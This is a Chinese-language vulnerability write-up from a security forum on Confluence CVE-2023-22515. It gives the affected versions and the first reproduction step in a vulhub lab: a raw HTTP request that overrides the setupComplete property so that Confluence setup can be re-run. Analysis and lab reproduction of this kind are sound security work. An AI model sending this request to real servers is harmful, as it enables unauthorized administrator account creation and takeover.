 

# Confluence CVE-2023-22515 漏洞分析 - 先知社区

Confluence CVE-2023-22515 漏洞分析

- - -

## 简介

2023 年 10 月 4 日，Atlassian 官方发布了对于 CVE-2023-22515 漏洞的补丁。这个漏洞是由属性覆盖导致，利用该漏洞攻击者可以重新执行 Confluence 安装流程并增加管理员账户。

该漏洞不影响 8.0.0 以前的版本。

影响版本

Confluence Data Center 和 Confluence Server

-   8.0.0 - - 8.0.4
-   8.1.0 - - 8.1.4
-   8.2.0 - - 8.2.3
-   8.3.0 - - 8.3.2
-   8.4.0 - - 8.4.2
-   8.5.0 - - 8.5.1

## 漏洞复现

使用 vulhub 的漏洞环境

[https://github.com/vulhub/vulhub/blob/master/confluence/CVE-2023-22515/README.zh-cn.md](https://github.com/vulhub/vulhub/blob/master/confluence/CVE-2023-22515/README.zh-cn.md)

0x01 覆盖 `bootstrapStatusProvider.applicationConfig.setupComplete`属性

```bash
GET /server-info.action?bootstrapStatusProvider.applicationConfig.setupComplete=false HTTP/1.1
Host: localhost:8090
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.132 Safari/537.36
Connection: close
Cache-Control: max-age=0
```
